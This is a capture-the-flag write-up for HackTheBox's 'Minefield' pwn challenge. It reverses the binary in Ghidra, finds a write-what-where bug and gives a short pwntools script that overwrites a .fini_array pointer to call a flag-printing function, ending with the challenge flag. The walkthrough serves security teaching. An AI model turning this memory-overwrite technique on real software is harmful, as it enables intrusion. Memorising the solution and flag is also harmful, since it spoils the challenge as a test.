

# CTF HackTheBox 2021 Cyber Apocalypse 2021 - Minefield

Category: Pwn, Points: 325


Attached file [minefield](minefield)

# Minefield Solution

Let's get information about the binary:

```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/minefield]
└──╼ $checksec minefield
[*] '/ctf_htb/cyber_apocalypse/reversing/minefield/minefield'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

So we are dealing with 64bit dinary with [Canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries) and [NX enabled](https://en.wikipedia.org/wiki/NX_bit)(Non-Execute).

Let's try to run the binary:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/minefield]
└──╼ $ ./minefield
Are you ready to plant the mine?
1. No.
2. Yes, I am ready.
> 2
We are ready to proceed then!
Insert type of mine: 11
Insert location to plant: 22
We need to get out of here as soon as possible. Run!
Segmentation fault
```

So we can see we can get two user inputs and we see at the end of program Segmentation fault.

By load the binary to [Ghidra](https://ghidra-sre.org/) we can search for the string before user inputs: "Insert type of mine", It's located on ```mission``` function:
```c

void mission(undefined8 param_1,void *param_2,undefined8 param_3,char *param_4,int param_5,
            int param_6)

{
  ulonglong *puVar1;
  ulonglong uVar2;
  int extraout_EDX;
  int extraout_EDX_00;
  void *pvVar3;
  long in_FS_OFFSET;
  char local_24 [10];
  char local_1a [10];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Insert type of mine: ");
  r(local_24,param_2,extraout_EDX,param_4,param_5,param_6);
  pvVar3 = (void *)0x0;
  puVar1 = (ulonglong *)strtoull(local_24,(char **)0x0,0);
  printf("Insert location to plant: ");
  r(local_1a,pvVar3,extraout_EDX_00,param_4,param_5,param_6);
  puts("We need to get out of here as soon as possible. Run!");
  uVar2 = strtoull(local_1a,(char **)0x0,0);
  *puVar1 = uVar2;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

```

As we can see ```mission``` function called to ```r``` function:
```c

void r(void *param_1,void *param_2,int param_3,char *param_4,int param_5,int param_6)

{
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  read(0,param_1,9);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Where ```r``` function read 9 bytes into ```param_1``` buffer.

```mission``` functin called to ```r``` function as follow:
1. ```r(local_24,param_2,extraout_EDX,param_4,param_5,param_6);``` where ```local_24``` is ```char local_24 [10];```.
2. ```r(local_1a,pvVar3,extraout_EDX_00,param_4,param_5,param_6);``` where ```local_1a``` is ```char local_1a [10];```.

So It's mean our input should be 9 characters.

We can see also two calling of [stroull](https://www.cplusplus.com/reference/cstdlib/strtoull/) which parses the C-string str interpreting its content as an integral number of the specified base, which is returned as a value of type unsigned long long.

```mission``` function called to ```stroull`` as follow:
1. ```puVar1 = (ulonglong *)strtoull(local_24,(char **)0x0,0);``` where ```puVar1``` is ```ulonglong *puVar1;```
2. ```uVar2 = strtoull(local_1a,(char **)0x0,0);``` where ```uVar2``` is ```ulonglong uVar2;```

So so far we know we have two inputs (9 characters - ```r``` function) which converted to unsigned long long (```stroull``` function).

Right after the 2nd call of ```stroull``` we can see the following line:
```c
*puVar1 = uVar2;
```

It's mean we write the content of ```uVar2``` (the second user input) to the address pointed by ```puVar1``` (the first user input) - We can write write-what-where - meaning we can write any content to any address.

We can see that by disassemble ```mission``` function using [gdb](https://man7.org/linux/man-pages/man1/gdb.1.html):

```asm
gef➤  disassemble mission 
Dump of assembler code for function mission:
...
   0x0000000000400acc <+136>:	call   0x400770 <strtoull@plt>
   0x0000000000400ad1 <+141>:	mov    QWORD PTR [rbp-0x28],rax
   0x0000000000400ad5 <+145>:	mov    rdx,QWORD PTR [rbp-0x28]
   0x0000000000400ad9 <+149>:	mov    rax,QWORD PTR [rbp-0x30]
=> 0x0000000000400add <+153>:	mov    QWORD PTR [rax],rdx
   0x0000000000400ae0 <+156>:	nop...
End of assembler dump.
gef➤  
```

```0x0000000000400add <+153>:	mov    QWORD PTR [rax],rdx``` will write the content of ```rdx``` to address pointed by ```rax```.

By looking on Ghidra defined strings we can see the follow:



The strinng ```cat flag*``` located on function called ```_```:
```c

void _(void)

{
  long lVar1;
  size_t __n;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  __n = strlen(&DAT_00400ccc);
  write(1,&DAT_00400ccc,__n);
  system("cat flag*");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

So if we can  write any content to any address we can overwrite ```rip``` register with address of ```_``` function but unfortunately ```rip``` located on ```0x7fffffffdf78``` address inside ```mission``` function and we can insert only 9 characters so It's impossible.

By looking on binary section-headers we can see:
```asm
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/minefield]
└──╼ $ objdump -h minefield 

minefield:     file format elf64-x86-64

Sections:
Idx Name          Size      VMA               LMA               File off  Algn
  0 .interp       0000001c  0000000000400200  0000000000400200  00000200  2**0
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  1 .note.ABI-tag 00000020  000000000040021c  000000000040021c  0000021c  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  2 .note.gnu.build-id 00000024  000000000040023c  000000000040023c  0000023c  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  3 .gnu.hash     00000028  0000000000400260  0000000000400260  00000260  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  4 .dynsym       00000198  0000000000400288  0000000000400288  00000288  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  5 .dynstr       000000ba  0000000000400420  0000000000400420  00000420  2**0
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  6 .gnu.version  00000022  00000000004004da  00000000004004da  000004da  2**1
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  7 .gnu.version_r 00000040  0000000000400500  0000000000400500  00000500  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  8 .rela.dyn     00000060  0000000000400540  0000000000400540  00000540  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  9 .rela.plt     00000120  00000000004005a0  00000000004005a0  000005a0  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 10 .init         00000017  00000000004006c0  00000000004006c0  000006c0  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 11 .plt          000000d0  00000000004006e0  00000000004006e0  000006e0  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 12 .text         000004f2  00000000004007b0  00000000004007b0  000007b0  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 13 .fini         00000009  0000000000400ca4  0000000000400ca4  00000ca4  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 14 .rodata       00000142  0000000000400cb0  0000000000400cb0  00000cb0  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 15 .eh_frame_hdr 0000007c  0000000000400df4  0000000000400df4  00000df4  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 16 .eh_frame     00000200  0000000000400e70  0000000000400e70  00000e70  2**3
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
 17 .init_array   00000008  0000000000601070  0000000000601070  00001070  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 18 .fini_array   00000008  0000000000601078  0000000000601078  00001078  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 19 .dynamic      000001d0  0000000000601080  0000000000601080  00001080  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 20 .got          00000010  0000000000601250  0000000000601250  00001250  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 21 .got.plt      00000078  0000000000601260  0000000000601260  00001260  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 22 .data         00000010  00000000006012d8  00000000006012d8  000012d8  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 23 .bss          00000020  00000000006012f0  00000000006012f0  000012e8  2**4
                  ALLOC
 24 .comment      00000029  0000000000000000  0000000000000000  000012e8  2**0
                  CONTENTS, READONLY
```

We need to take care to the following:
```asm
13 .fini         00000009  0000000000400ca4  0000000000400ca4  00000ca4  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 18 .fini_array   00000008  0000000000601078  0000000000601078  00001078  2**3
                  CONTENTS, ALLOC, LOAD, DATA
```
.fini is the analogous function pointer to the one that handles calling destructor functions (And we know It's must be called, And we can overwrite this address becaufe No RELRO).

.fini_array contains pointers to all the program-level finalizers.

We can read about .fini and .fini_array [here](http://blog.k3170makan.com/2018/10/introduction-to-elf-format-part-v.html) and [here](https://stackoverflow.com/questions/34966097/what-functions-does-gcc-add-to-the-linux-elf).

So we can overwrite one of .fini_array (Which is without READONLY flag) addresses with ```_``` function (0x601078=> <```_``` function address>).

As we said before - we can write the content of the second input to the address pointed by the first input.

So we know which address we want to overwrite - ```0x601078``` (from .fini_array), Now we just need to get the address of ```_``` function using gdb:

```console
gef➤ p _
$3 = {<text variable, no debug info>} 0x40096b <_>
```

So It's mean we need to send second input ```0x40096b``` - the address ```_``` function, and first input ```0x601078``` - the address to we want to overwrite.

We can do it by the following python code:
```python
from pwn import *

p = process('./minefield')
#gdb.attach(p)
print(p.recv().decode('utf-8'))
p.sendline("2") 

print(p.recv().decode('utf-8'))
print("Sending address of .fini_array: 0x601078...")
p.send('0x601078')
print(p.recv().decode('utf-8'))

print("Sending address of _ function: 0x40096b...")
p.send('0x40096b')
p.interactive()

```

Run it:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/minefield]
└──╼ $ echo "CHTB{TEST_FLAG}" > flag       # We know _ function make "cat flag*".
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/minefield]
└──╼ $ python mine.py
[+] Starting local process './minefield': pid 1071153
Are you ready to plant the mine?
1. No.
2. Yes, I am ready.
> 
We are ready to proceed then!
Insert type of mine: 
Sending address of .fini_array: 0x601078...
Insert location to plant: 
Sending address of _ function: 0x40096b...
[*] Switching to interactive mode
We need to get out of here as soon as possible. Run!

Mission accomplished! ✔
CHTB{TEST_FLAG}
[*] Got EOF while reading in interactive
$  

```

And we got the flag.

Now, Let's start the challenge docker and change the python code from ```p = process('./minefield')``` to ```p = remote('165.227.231.249', '31817')```, run it:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/minefield]
└──╼ $ python mine.py
[+] Opening connection to 165.227.231.249 on port 31817: Done
Are you ready to plant the mine?
1. No.
2. Yes, I am ready.
> 
We are ready to proceed then!

Sending address of .fini_array: 0x601078...
Insert type of mine: 
Sending address of _ function: 0x40096b...
[*] Switching to interactive mode
Insert location to plant: We need to get out of here as soon as possible. Run!

Mission accomplished! ✔
CHTB{d3struct0r5_m1n3f13ld}
```

And we get the flag ```CHTB{d3struct0r5_m1n3f13ld}```.